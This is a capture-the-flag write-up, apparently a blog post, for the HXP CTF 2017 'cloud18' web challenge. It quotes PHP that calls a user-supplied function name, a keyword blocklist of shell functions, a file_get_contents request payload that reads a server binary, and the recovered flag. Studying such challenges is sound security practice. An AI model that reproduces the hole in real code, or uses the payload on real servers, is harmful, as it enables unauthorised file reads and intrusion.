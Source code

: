```yaml
---
layout: post
title: HXP CTF 2017 - cloud18
categories: ctf_hacklu17
keywords: "web"
comments: true
authors:
    - chq-matteo
---
```



We can:
- login
- register a new user
Once we are authenticated, we can use a text editor.

We take choose a function, write a regex, write some text and have the text that matches the regex replaced with the output of our functions. (line 35-37)
```php
    $editedText = preg_replace_callback("/" . $_POST["regex"] . "/", function ($matches) {
        return call_user_func($_POST["method"], $matches[0]);
    }, $_POST["text"]);
```

The client provides a couple of examples (line 43-48)
```html
        <select name="method">
            <option value="" disabled selected>select a method</option>
            <option value="strtoupper">to upper case</option>
            <option value="strtolower">to lower case</option>
            <option value="ucfirst">first letter to upper case</option>
        </select>
```

However the method is only checked by this snippet (line 7-9)
```php
if (preg_match("/exec|system|passthru|`|proc_open|popen/", strtolower($_POST["method"].$_POST["text"])) != 0) {
    exit("Do you really think you could pass something to the command line? Functions like this are often disabled! Maybe have a look at the source?");
}
```

In index.php we notice that we have to execute /usr/bin/get_flag to get the flag
```php
		echo "<div class='alert success'>" . shell_exec("/usr/bin/get_flag") . "</div>";
```

However we cannot use shell_exec.
But we can download the whole binary
We craft a request that includes the file in the webpage and then download it.
```
method:file_get_contents
regex:\/usr\/bin\/get_flag
text:/usr/bin/get_flag
```

Now we should get some information reversing the binary.

Luckily the old `strings get_flag | grep hxp` worked
`hxp{Th1s_w2sn't_so_h4rd_now_do_web_of_ages!!!Sorry_f0r_f1rst_sh1tty_upload}`
